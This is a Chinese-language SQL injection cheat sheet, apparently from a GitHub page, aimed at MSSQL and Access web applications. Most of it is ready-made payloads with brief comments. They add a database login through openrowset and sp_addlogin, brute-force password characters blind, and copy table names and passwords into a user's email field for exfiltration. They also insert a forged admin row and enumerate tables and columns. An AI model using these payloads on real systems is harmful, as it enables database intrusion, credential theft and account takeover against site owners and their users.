 如果被限制则可以。
``` 
select * from openrowset(sqloledb,server;sa;,select OK! exec master.dbo.sp_addlogin hax)
```

查询构造： 
```
SELECT * FROM news WHERE id=... AND topic=... AND ..... 
adminand 1=(select count(*) from [user] where username=victim and right(left(userpass,01),1)=1) and userpass <> 
select 123;-- 
;use master;-- 
:a or name like fff%;-- 显示有一个叫ffff的用户哈。 
and 1<>(select count(email) from [user]);-- 
;update [users] set email=(select top 1 name from sysobjects where xtype=u andstatus>0) where name=ffff;-- 
;update [users] set email=(select top 1 id from sysobjects where xtype=u and name=ad) where name=ffff;-- 
;update [users] set email=(select top 1 name from sysobjects where xtype=u and id>581577110) where name=ffff;-- 
;update [users] set email=(select top 1 count(id) from password) where name=ffff;-- 
;update [users] set email=(select top 1 pwd from password where id=2) where name=ffff;-- 
;update [users] set email=(select top 1 name from password where id=2) where name=ffff;-- 
```


上面的语句是得到数据库中的第一个用户表,并把表名放在ffff用户的邮箱字段中。 
通过查看ffff的用户资料可得第一个用表叫ad 
然后根据表名ad得到这个表的ID 得到第二个表的名字
```
insert into users values( 666, char(0x63)+char(0x68)+char(0x72)+char(0x69)+char(0x73), char(0x63)+char(0x68)+char(0x72)+char(0x69)+char(0x73), 0xffff)-- 
insert into users values( 667,123,123,0xffff)-- 
insert into users values ( 123, admin--, password, 0xffff)-- 
;and user>0 
;and (select count(*) from sysobjects)>0 
;and (select count(*) from mysysobjects)>0 //为access数据库
```

枚举出数据表名 
```
;update aaa set aaa=(select top 1 name from sysobjects where xtype=u and status>0);-- 
```

这是将第一个表名更新到aaa的字段处。 
读出第一个表，第二个表可以这样读出来（在条件后加上 and name<>刚才得到的表名）。 
```
;update aaa set aaa=(select top 1 name from sysobjects where xtype=u and status>0 and name<>vote);-- 
```

然后
```
id=1552 and exists(select * from aaa where aaa>5) 
```

读出第二个表，一个个的读出，直到没有为止。 
读字段是这样： 
```
;update aaa set aaa=(select top 1 col_name(object_id(表名),1));-- 
```
